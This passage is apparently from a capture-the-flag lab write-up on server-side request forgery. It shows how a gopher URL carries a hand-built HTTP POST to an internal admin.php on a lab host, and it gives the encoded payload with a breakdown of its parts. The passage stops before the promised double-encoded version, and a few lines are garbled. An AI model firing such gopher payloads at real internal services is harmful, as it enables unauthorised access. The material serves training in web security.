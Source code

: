 <figure><img src="../../../.gitbook/assets/image (1334).png" alt=""><figcaption></figcaption></figure>

we can use the [gopher](https://datatracker.ietf.org/doc/html/rfc1436) URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.

If we wante to target&#x20;

```http
adminpw
```

and don't forget to URL-encode all special characters to construct a valid gopher URL from this

```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

#### URL Breakdown

* **Scheme**: `gopher://`
  * Gopher is a protocol designed for distributing, searching, and retrieving documents over the Internet.
* **Host**: `dateserver.htb`
  * The server you are targeting with the Gopher request.
* **Port**: `80`
  * Standard port for HTTP traffic.
* **Path**: `/_POST /admin.php HTTP/1.1`
  * The path starts with an underscore `_`, which is a Gopher convention for denoting a raw request.
  * It constructs a part of the HTTP request: `POST /admin.php HTTP/1.1`.
* **Encoded Content**: `%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin`
  * This section encodes the remaining parts of the HTTP POST request.
  * `%0D%0A` represents carriage return and line feed (`\r`), which are used to separate lines in HTTP headers.

But since we are sending our URL via the POST request that is already encoded, we need to encoded it another time which will turn out like this:
